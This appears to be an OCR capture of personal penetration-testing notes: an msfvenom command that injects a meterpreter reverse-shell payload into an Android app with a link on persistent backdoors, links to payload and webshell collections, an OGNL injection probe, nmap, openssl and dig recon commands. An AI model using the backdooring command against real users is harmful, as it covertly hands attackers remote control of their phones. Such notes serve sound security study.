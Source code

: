 Port Tunneling over Port Forwarding -- use ngrok.com or portmap.io
msfvenom -x UC.apk -p /android/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -0 UC_1.apk
d2j-apk-sign UC1.apk
https://pengs.win/how-to-make-a-persistent-android-backdoor-using-metasploit/



https://techvomit.net/web-application-penetration-testing-notes/
https://github.com/swisskyrepo/PayloadsAllTheThings 					--good resource
https://github.com/OWASP/CheatSheetSeries/tree/master/cheatsheets
https://github.com/sumas/OSCP-Cheatsheet-God  							--good resource
https://github.com/BlackArch/webshells
https://www.offensive-security.com/metasploit-unleashed/wmap-web-scanner/
https://www.owasp.org/images/2/20/Microservice_Security.pdf				--Microservice pentest guide



OGNL expression injection <>!@#$%^&*()_+=-}{[]|\;:'",.?/
Object-Graph Navigation Language (OGNL) is an expression language for handling Java objects. When an OGNL expression injection vulnerability is present, it is possible for the attacker to inject OGNL expressions. These expressions can execute arbitrary Java code.
Searching for this vulnerability in a black box environment is easy, and have the same approach as searching for SSTI vulnerabilities. We can inject OGNL expressions in all user supplied data fields and see if we get any response back indicating that the expression has been handled and executed on the server.
An example of an expression to use could be as simple as:	foobar%{191*7}
where %{191*7}is the expression. The output from this would be 1337. These expressions can of course be something other than just mathematical, but this is a way to easily detect the vulnerability.



SSL Certificates are small data files that digitally bind a cryptographic key to an organization’s details. When installed on a web server, it activates the padlock and the https protocol (over port 443) and allows secure connections from a web server to a browser. Typically, SSL is used to secure credit card transactions, data transfer and logins, and more recently is becoming the norm when securing browsing of social media sites. SSL Certificates bind together:
A domain name, server name or hostname.
An organizational identity (i.e. company name) and location


Nmap commands (Export,des40 = FREAK)
Geo-Location				nmap --script=asn-query,whois,ip-geolocation-maxmind <target>
							nmap -sU -pU:123 -Pn -n --script ntp-monlist,ntp-info
							nmap -sU -p 53 --script=dns-recursion <target>
TLS Fallback				openssl s_client -connect <>:443 -fallback_scsv -no_tls1_2
detection					map -sV -sC -Pn -A -vv <target>
							nmap -sn <range> <sweep command>
							nmap --script ssh2-enum-algos
							nmap -sS -n -Pn -vvv --open
							/usr/share/nmap/scripts | grep ssh
               
                


DNS inverse queries, DNS zone Transfers, web based DNS Searches 

-dig redhat.com ANY +noall +answer 	      //all records
-dig -x 209.132.183.81 			            //reverse lookup
-dig @ns1.redhat.com redhat.com 	         // query name server
